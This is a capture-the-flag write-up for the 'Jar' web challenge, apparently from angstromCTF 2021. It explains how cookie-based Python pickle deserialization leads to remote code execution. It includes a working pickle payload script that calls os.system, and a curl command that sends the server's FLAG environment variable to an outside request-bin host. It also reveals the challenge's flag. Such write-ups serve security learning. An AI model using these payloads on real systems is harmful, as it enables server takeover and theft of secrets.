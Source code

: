 # Jar

## Challenge:

My other pickle challenges seem to be giving you all a hard time, so here's a [simpler one](https://jar.2021.chall.actf.co/) to get you warmed up.

## Solution:

We’re given a link to the web application, the Python source code, and a picture of a pickle. The hint points to the [documentation for the Python pickle module](https://docs.python.org/3/library/pickle.html), a clue that this application is vulnerable to insecure deserialization.

The site shows a single form input with an “Add Item” button. Whatever we submit is appended to the page. Looking at the source code, we can see that the `contents` cookie is used to store these submissions.

On a post request, the `contents` cookie is Base64 decoded and then deserialized and stored in an array. The new item is added, the array is serialized, and then the cookie is reencoded and set in the browser. When we visit the page, the `contents` cookie is decoded and deserialized and the objects are used to generate the text boxes around the page.

We should be able to generate our own pickled payload, set it as the `contents` cookie, and convince the application to deserialize the cookie and execute our code.

There’s a good write-up [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) with a script to generate an exploit. Unfortunately, everything we try seems to result in a `500` error. Using a trick discovered [here](https://r3billions.com/writeup-pickle-store/), we can try `sleep 5` to confirm that our code is getting executed on the server:

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ("sleep 5")
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

That gives us the payload `gASVIgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAdzbGVlcCA1lIWUUpQu`. If we set that as our cookie and refresh the page, we see that it does indeed take 5 seconds to load. Now we just need to exfiltrate our flag.

Using another trick from that same write-up, we can try to `curl` an endpoint with our output. We can use our own server, or a [request bin](https://requestbin.com/), to receive the payload.

We can see in the source code that the flag is stored in an environment variable. Let’s update our exploit:

```
cmd = ("curl https://en1rz2m58frpb.x.pipedream.net/`echo $FLAG`")
```

If we give that a try, we immediately see a response on our request bin:

<img src="flag.png" alt="Server-side flag forgery." width="600">

And there's our flag: `actf{you_got_yourself_out_of_a_pickle}`.
